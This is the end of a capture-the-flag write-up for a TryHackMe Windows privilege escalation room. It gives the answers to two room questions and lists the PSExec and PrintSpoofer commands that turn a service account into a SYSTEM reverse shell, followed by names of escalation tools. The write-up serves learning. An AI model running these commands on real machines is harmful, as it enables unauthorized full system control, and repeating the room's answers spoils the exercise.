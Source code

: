 We have the answers for the 2 questions in this task:

> Name one user privilege that allows this exploit to work.\
> > SeImpersonatePrivilege

> Name the other user privilege that allows this exploit to work.\
> > SeAssignPrimaryTokenPrivilege

### Token Impersonation - PrintSpoofer

This method, as the section heading suggests, uses the [PrintSpoofer exploit](https://github.com/k4sth4/PrintSpoofer) which abuses the ***SeImpersonate*** privilege. To proceed, we begin by starting a listener on our machine, and getting some sort of service account shell. This can be simulated by executing the following command in an elevated command prompt:

```console
C:\Users\user> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

Now, we start yet another listener on a different port, and run the PrintSpoofer exploit to trigger a second reverse shell that has SYSTEM privileges:

```console
C:\Users\user> C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

### Privilege Escalation Scripts

This section just informs us about the names of several different tools that may be used for automated privilege escalation. One of the most popular ones is `winPEASany.exe`...

- winPEASany.exe
- Seatbelt.exe
- PowerUp.ps1
- SharpUp.exe

And that concludes this room!

## Conclusion

I hope this writeup helped in some or the other way. If it did, please feel free to drop a star or follow me on github: https://github.com/NovusEdge

---

Room: [Windows PrivEsc](https://tryhackme.com/room/windows10privesc) by [Tib3rius](https://tryhackme.com/p/Tib3rius)
Author: Aliasgar Khimani
